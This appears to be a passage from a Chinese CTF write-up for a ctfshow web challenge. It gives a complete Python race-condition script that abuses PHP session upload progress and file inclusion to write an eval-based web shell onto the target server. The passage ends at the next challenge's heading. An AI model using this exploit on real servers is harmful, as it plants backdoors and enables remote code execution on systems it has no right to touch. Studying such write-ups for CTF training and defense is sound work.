临时文件的复现难度很大，建议直接session文件包含

用下面脚本打

```python
import requests
import threading
 
session = requests.session()
 
sess = "ctfshow"
 
file_name = "/var/www/html/1.php"
file_content = '<?php eval($_POST[1]);?>'
 
url = "http://3fd00eb3-48d8-4a13-99e6-4dcced70454f.challenge.ctf.show/"
 
data = {
    "PHP_SESSION_UPLOAD_PROGRESS": f"<?php echo 'success!'; file_put_contents('{file_name}','{file_content}');?>"
}
 
file = {
    'file': 'ctfshow'
}
 
cookies = {
    'PHPSESSID': sess
}
 
 
def write():
    while True:
        r = session.post(url=url, data=data, files=file, cookies=cookies)
 
 
def read():
    while True:
        r = session.post(url=url + "?file=/tmp/sess_ctfshow")
        if "success" in r.text:
            print("shell 地址为：" + url + "1.php")
            exit()
 
 
if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write).start()
        for i in range(1, 30):
            threading.Thread(target=read).start()
    event.set()
```

能不能出看运气，超级讨厌这种题

## **pear文件包含/RCE**

### web809
